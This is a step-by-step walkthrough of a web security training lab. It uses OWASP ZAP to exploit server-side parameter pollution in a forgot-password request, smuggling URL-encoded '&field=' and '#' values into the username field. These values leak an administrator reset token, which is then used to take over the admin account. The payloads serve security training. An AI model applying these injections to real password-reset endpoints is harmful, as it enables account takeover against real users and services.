

# Lab: Exploiting server-side parameter pollution in a query string [OWASP Zed Attack Proxy]

In ZAP browser open the lab, navigate to _My account_, click _Forgot password_, enter `administrator` in the input field and click submit.

In ZAP interface, bottom pane, notice a `POST` request with an endpoint `/forgot-password`. Right-click on it and __Open/Resent with Request Editor...__. Resend the request to make sure the response is consistent. 

Change the value of the `username` parameter to the non-existent `administratorx` and send the request.

_Response Body:_
```
{
  "type":"ClientError",
  "code":400,
  "error":"Invalid username."
}
```

Attempt to add a second parameter-value pair to the server-side request using a URL-encoded `&` character, as follows: `username=administrator%26x=y` and send.

_Response Body:_
```
{
  "error": "Parameter is not supported."
}
```

This suggests that the internal API interpreted `&x=y` as a separate parameter and not part of the username.

Let's try to truncate the sever-side query using URL-encoded `#` character, as follows: `username=administrator%23` and send.

_Response Body:_
```
{
  "error": "Field not specified."
}
```

This suggests that the server-side query includes an additional parameter named `field` which has been removed by the `#` character we introduced. Let's add a `field` parameter with an invalid value to the request. Truncate the query string after the added parameter-value pair, as follows: `username=administrator%26field=x%23` and send.

_Response Body:_
```
{
  "type":"ClientError",
  "code":400,
  "error":"Invalid field."
}
```

This suggests that the server-side application may recognize the injected field parameter. Let's brute-force the value of the `field` parameter using ZAP Fuzzer. 

- In the list of requests on the bottom pane, right-click the `POST` request with `/forgot-password` endpoint and go to __Attack__ > __Fuzz__.
- Click _Edit_ and add `%26field=x%23` at the end of the request body and click _Save_. Select `x` and click _Add_ under _Fuzz locations_. 
- Download the following payload [file](https://raw.githubusercontent.com/antichown/burp-payloads/refs/heads/master/Server-side%20variable%20names.pay).
- In the new window under _Payloads_ click _Add_ and choose _File_ in the dropdown. Select the file downloaded in the previous step and click _Add_.
- Start the fuzzer and look for `200` under column _Code_.



Back to the __History__ tab, right click the `POST` request with endpoint `/forgot-password` again and click __Open/Resend with Request Editor...__ 

Change parameter 'field' value from `x` to `email` as follows: `&username=administrator%26field=email%23` and send the request.

_Response Body:_
```
{
  "result":"*****@normal-user.net",
  "type":"email"
}
```
This indicates that `email` is a valid field type. Now let's go to __History__ tab again and find a `GET` request with an endpoint `/static/js/forgotPassword.js` and inspect this file in browser. Right-click it and find __Open URL in Browser__ > __Firefox__. Notice that, there is a password reset endpoint, which refers to the `reset_token` parameter:

```javascript
forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?reset_token=${resetToken}`;
    }
    else
    {
        const forgotPasswordBtn = document.getElementById("forgot-password-btn");
        forgotPasswordBtn.addEventListener("click", displayMsg);
    }
});
```

The entire endpoint looks like this: `/forgot-password?reset_token=${resetToken}`. Let's go to the __History__ tab once again and open `POST /forgot-password` request in the __Requester__ Tab by Right-clicking it and choosing __Open in Requester Tab__ and in the response body change the value of `field` parameter from `email` to `reset_token` as follows: `username=administrator%26field=reset_token%23` and send the request.

_Response Body:_
```
{
  "result":"0v9irltq0ge55686mgejpg9sio3x98qz",
  "type":"reset_token"
}
```

Now in the ZAP browser enter the password reset endpoint `/forgot-password` and add `?reset_token=0v9irltq0ge55686mgejpg9sio3x98qz` and hit Enter. Set a new password and login as `administrator` user using new password.

Go to __Admin panel__ and delete `carlos` to solve the lab.

> Return to the [original write-up](README.md)
